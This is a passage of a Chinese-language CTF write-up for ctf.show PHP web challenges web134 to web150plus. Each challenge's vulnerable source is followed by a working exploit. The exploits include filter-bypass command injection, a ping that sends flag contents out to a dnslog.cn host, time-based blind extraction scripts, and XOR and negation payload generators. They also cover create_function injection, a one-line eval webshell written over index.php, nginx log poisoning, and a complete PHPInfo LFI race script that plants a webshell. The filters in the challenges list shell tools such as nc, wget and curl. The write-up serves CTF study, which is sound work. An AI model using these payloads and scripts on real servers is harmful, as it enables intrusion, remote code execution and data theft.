# @Last Modified time: 2020-10-14 23:01:06

*/

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```


看到extract想起变量覆盖

```
extract($_POST);
//提取$_POST数组
```

payload:

```
?_POST[key1]=36d&_POST[key2]=36d
```


#### web135

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 18:48:03

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

133plus

这题ban了很多命令

但是没ban nl,mv，可以用nl和cp把flag写到其他文件中

payload:

```
`$F `;nl f*>1.txt
`$F `;mv f*>1.txt
```



这题也可以用ping进行外带

```
`$F`;+ping `cat flag.php|awk 'NR==2'`.6x1sys.dnslog.cn
#通过ping命令去带出数据，然后awk NR一排一排的获得数据
```


#### web136

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

这题要用到一个linux的命令tee

> ### Linux [tee](https://so.csdn.net/so/search?q=tee&spm=1001.2101.3001.7020)命令介绍
>
> `tee`命令在Linux中用于从标准输入读取数据，并将其写入到标准输出和一个或多个文件中。`tee`命令通常与其他命令一起通过管道使用。
>
> 如
>
> ```shell
> ls /|tee 1.txt
> ```
>
> 就可以将ls /的结果写入到1.txt文件中

```
ls /|tee 1
```

这题ban掉了.

访问url/1，下载文件1


看到flag的位置

```
?c=cat /f149_15_h3r3|tee 2
```


#### web137

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:27:49

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}


call_user_func($_POST['ctfshow']);
```


我们需要通过post传入一个数组，数组中包含类名和方法名

payload

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
```

又或者

```
ctfshow=ctfshow::getFlag
```


#### web138

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:52:13

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);

```

这道题限制了上一题的第二种解法

第一种还能继续使用

payload:

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```


#### web139

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

这题看着和前面那题是一样的

但实际上没有写文件的权限

这题可以通过时间盲注攻击获取文件名已经文件中的字符等

时间盲注脚本：

```python
import requests
import time
import string

str = string.ascii_letters + string.digits + "-" + "{" + "}" + "_" + "~"    # 构建一个包含所有字母和数字以及部分符号的字符串，符号可以自己加
result = ""          # 初始化一个空字符串，用于保存结果

#获取多少行
for i in range(1, 99):
    key = 0   #用于控制内层循环(j)的结束

    #不break的情况下，一行最多几个字符
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:       #n就是一个一个的返回值
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   #{n}是占位符
            #print(payload)
            url = "http://89e3e82d-d133-4a9e-a883-790d41e8a3b8.challenge.ctf.show?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   #设置超时时间为 2.5 秒,包括连接超时和读取超时，超时就是之前sleep 3了。

            # 如果请求发生异常，表示条件满足，将当前字符 n 添加到结果字符串中，并结束当前内层循环
            except:
                result = result + n
                print(result)
                break
            if n == '~':    #str的最后一位，“~”不常出现，用作结尾
                key = 1
                
    # 在每次获取一个字符后，将一个空格添加到结果字符串中，用于分隔结果的不同位置
    result += " "

```

这个脚本的原理其实就是，通过shell编程中的if语句判断

```
ls /|awk 'NR=={0}'|cut -c {1}
```

中截取到的字符串是否与我们遍历的任一个字符匹配，若匹配成功则使用sleep命令使响应时间变为3s

而脚本通过判断响应时间即可知道截取到的字符是否匹配，从而一个一个字符的获取



读到flag的位置，接下来就是读文件了，原理一样

```python
import requests
import time
import string

str = string.digits+string.ascii_lowercase+"-"+"{"+"}"    
result = ""          

for i in range(1, 99):
    key = 0   
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:      
            payload = "if [ `cat /f149_15_h3r3|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   
            #print(payload)
            url = "http://a37f8386-b265-4794-b4d1-7e4e62f05859.challenge.ctf.show//?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   

			except:
                result = result + n
                print(result)
                break
                
    result += " "
```




#### web140

函数的利用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 12:39:25

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}

```

[原文](https://ctf.show/writeups/743106)

需要`$f1($f2());`的返回值，或者是字母开头的字符串，或者是空数组，或者就是0，或者FLASE。

**payload1**： system(system())---> `f1=system&f2=system`

`string system( string $command[, int &$return_var] )`：成功则返回命令输出的最后一行，失败则返回 FALSE 。system()必须包含参数，失败返回FLASE；system('FLASE')，空指令，失败返回FLASE。

**payload2**： usleep(usleep())---> `f1=usleep&f2=usleep` usleep没有返回值。 所以intval参数为空，失败返回0

**payload3**： getdate(getdate())---> `f1=getdate&f2=getdate`

`array getdate([ int $timestamp = time()] )`：返回结果是array，参数必须是int型。所以getdate(getdate())---->getdate(array型)--->失败返回flase，intval为0。


#### web141

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:28:09

*/

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

```

```
preg_match('/^\W+$/', $v3)
```

此正则表达式用于检查字符串 `$v3` **是否完全由非单词字符组成**，且**不能为空**。（单词字符：字母、数字和下划线）

根据题目我们可以联想到取反，或，异或命令执行，这里随便一个都行

> php中有个有意思的地方，数字是可以和命令进行一些运算的，例如 1-phpinfo();是可以执行phpinfo()命令的。这样就好说了。构造出1-phpinfo()-1就可以了，也就是说 v1=1&v2=1&v3=-phpinfo()-

羽师傅有个取反脚本

```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

```

直接用就行


payload:

```
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)-
```

#### web142

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:36:02

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

这题就是一个$d秒后出flag，直接传入v1=0，直接拿到flag

payload:

```
?v1=0
```


#### web143

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 12:48:14

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题ban掉了取反，只能用其他位运算符构造payload

羽师傅的异或脚本

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```


#### web144

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 16:21:15

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

这题跟143差不多，只是参数交换了一下位置

直接异或出了

```
?v1=1&v2=-("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%03%01%0b%00%06%00"^"%60%60%7f%20%60%2a")&v3=1
```


#### web145

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题ban掉了异或运算符^,同时也ban掉了加减乘除

但是我们还可以考虑构造三目运算符配合取反

payload:

```
/?v1=1&v2=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5):
```


#### web146

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题把三目运算符也ban了

可以考虑使用位运算符|


payload:

```
?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|
```


#### web147

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 02:04:38

*/


highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

create_function()代码注入

如果我们第二个参数传入 echo 1;}phpinfo();//
就等价于

```
function f($a) {
  echo 1;}phpinfo();//
}
从而执行phpinfo()命令
```

那要怎么绕过正则表达式呢

```
/^[a-z0-9_]*$/isD
```

这个正则表达式匹配所有的字母数字和下划线

而且由于

> php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法

所以我们可以通过\create_function()来绕过这个正则表达式

payload:

```
GET show=;};system('cat f*');/*
POST ctf=\create_function
```


#### web148

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 03:52:11

*/


include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

没ban异或运算符

payload:

```
("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%03%01%09%01%06%02"^"%60%60%7d%21%60%28");
//system("cat f*");
```


#### web149

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 04:34:40

*/


error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

直接用一句话木马覆写掉index.php

```
GET ?ctf=index.php
POST show=<?php @eval($_POST['1']);?>
```

写入后

```
POST 1=system('cat /ctfshow_fl0g_here.txt');
```


#### web150

非预期 日志注入

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```

这题存在非预期，可以通过extract变量覆盖使isVIP=true，接着进行日志注入


或者


把马写到日志里

payload:

```
GET ?isVIP=true&1=system('cat f*');
POST ctf=/var/log/nginx/access.log
```


#### web150plus

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}

```

这题ban掉了非预期解 日志注入的方法

首先我们需要知道__autoload方法的作用

- `__autoload()`：自动加载函数，当使用未定义的类时会自动调用该函数。如果`$class`变量已设置，则将其作为函数调用。

而且这题的__autoload并不在类CTFSHOW中（障眼法）


这个类在isVIP后面已经结束了

所以我们可以通过

```
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}
```

调用任意的类

我们可以根据php会将.解析成_的特性绕过正则

```
GET ?..CTFSHOW..=phpinfo
```


由于原题需要竞争所以后面就直接把flag放环境变量了

这里我们直接在phpinfo里面找就行


**原题解法**
拿到phpinfo我们就可以getshell了

> PHP LFI本地文件包含漏洞主要是包含本地服务器上存储的一些文件，例如session文件、日志文件、临时文件等。但是，只有我们能够控制包含的文件存储我们的恶意代码才能拿到服务器权限。假如在服务器上找不到我们可以包含的文件，此时可以通过利用一些技巧让服务存储我们恶意生成的临时文件，该临时文件包含我们构造的的恶意代码，此时服务器就存在我们可以包含的文件了。如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。
> 原文链接：https://blog.csdn.net/qq_63701832/article/details/129337902

> 过程
> 1.发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
>
> 2.phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
>
> 3.php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
>
> 4.操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
>
> 5.此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
>
> 6.利用这个时间差，发第二个数据包，即可成功包含临时文件，最终getshell
>
> 处理
> PHP 对 enctype="multipart/form-data"请求的处理过程如下：
> 1、请求到达；
> 2、创建临时文件（通常是/tmp/php[6 个随机字符]），并写入上传文件的内容；
> 3、调用相应 PHP 脚本进行处理，如校验名称、大小等；
> 4、删除临时文件。
> 总结
> php post 上传文件产生临时文件，phpinfo读临时文件的路径和名字，本地包含后生成后门
> 原文链接：https://blog.csdn.net/qq_63701832/article/details/129337902

大佬的脚本，但是是python2的

```python
#!/usr/bin/python 
import sys
import threading
import socket
 
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /06/phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /06/lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
 
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
    s.connect((host, port))
    s2.connect((host, port))
 
    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None
 
    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()
 
    if d.find(tag) != -1:
        return fn
 
counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args
 
    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1
 
            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    
 
def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256
 
def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30
 
    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)
 
    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)
 
    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)
 
    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()
 
    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()
 
    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()
 
    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))
 
    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()
 
if __name__=="__main__":
    main()
```